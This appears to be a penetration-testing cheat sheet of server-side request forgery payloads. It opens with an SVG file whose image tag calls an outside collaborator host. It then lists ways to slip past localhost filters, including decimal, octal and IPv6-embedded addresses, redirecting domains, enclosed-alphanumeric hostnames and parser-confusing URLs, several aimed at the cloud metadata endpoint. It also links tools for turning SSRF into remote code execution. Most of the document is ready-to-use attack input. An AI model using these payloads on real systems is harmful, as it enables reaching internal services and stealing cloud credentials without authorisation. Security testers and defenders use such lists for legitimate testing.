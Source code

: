# Server Side Request Forgery (SSRF)

## Payloads

### SSRF in SVG file

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200">
    <image height="200" width="200" xlink:href="http://burpcollaborator.com/image.jpeg" />
</svg>
```

## Localhost Bypasses

### Using \[::]

```csharp
http://[::]:80/ #HTTP
http://[::]:25/ #SMTP 
http://[::]:22/ #SSH
http://[::]:3128/ #SQUID
http://0000::1:80/ #HTTP
http://0000::1:25/ #SMTP
http://0000::1:22/ #SSH
http://0000::1:3128/ #SQUID
```

### Using a domain redirection

```csharp
http://spoofed.burpcollaborator.net
http://localtest.me
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://mail.ebc.apple.com redirect to 127.0.0.6 == localhost
http://bugbounty.dod.network redirect to 127.0.0.2 == localhost
```

### Using CIDR

```csharp
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

### Using decimal IP location

```csharp
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/  = http://169.254.169.254
```

### Using Octal IP

```csharp
http://0177.0.0.1/ = http://127.0.0.1
http://o177.0.0.1/ = http://127.0.0.1
http://0o177.0.0.1/ = http://127.0.0.1
http://q177.0.0.1/ = http://127.0.0.1
```

### Using IPv6/IPv4 Address Embedding

```csharp
http://[0:0:0:0:0:ffff:127.0.0.1]

#Cloud Metadata
http://[::ffff:169.254.169.254]
http://[0:0:0:0:0:ffff:169.254.169.254]
```

### Using malformed urls

```csharp
localhost:+11211aaa
localhost:00011211aaaa
```

### Using weird address

```csharp
http://0/
http://127.1
http://127.0.1
```

### Using enclosed alphanumerics

```csharp
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

### Against a weak parser

```csharp
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

## References

{% embed url="https://github.com/tarunkant/Gopherus" %}
Gopherus - Tool to generate gopher link for exploiting SSRF and gaining RCE in various servers
{% endembed %}

{% embed url="https://github.com/knassar702/lorsrf" %}
lorsrf - SSRF parameter bruteforce (use scant3r module instead)
{% endembed %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#bypass-localhost-with-cidr" %}
SSRF Payloads Repository
{% endembed %}

